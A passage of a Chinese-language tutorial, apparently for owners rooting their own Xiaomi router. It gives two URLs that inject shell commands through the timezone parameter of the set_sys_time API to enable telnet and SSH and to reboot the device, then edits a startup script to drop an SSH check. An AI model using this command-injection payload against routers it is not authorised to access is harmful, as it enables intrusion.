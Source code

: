 ### 修改 Bdata

重新登陆路由器 WebUI 此时 token 有变化，记得不要使用之前的链接操作

```
http://你的路由器IP/cgi-bin/luci/;stok={token}/api/misystem/set_sys_time?timezone=%20%27%20%3B%20bdata%20set%20telnet_en%3D1%20%3B%20bdata%20set%20ssh_en%3D1%20%3B%20bdata%20commit%20%3B%20
```

这条在路由器中执行 `bdata set telnet_en=1 ; bdata set ssh_en=1 ; bdata commit`

然后使用 
```
http://192.168.31.1/cgi-bin/luci/;stok={token}/api/misystem/set_sys_time?timezone=%20%27%20%3b%20reboot%20%3b%20
```
来重启路由器

接着就可以 telnet 连接路由器了

### 打开 SSH

首先 telnet 连接到路由器，看到经典的 ARE U OK 彩蛋

![](telnet.png)

然后用 vi 删除 `/etc/init.d/dropbear` 中 135 行到 137 行，其中内容是

```bash
if [ "$flg_ssh" != "1" -o "$channel" = "release" ]; then        
  return 0                                                           
fi
```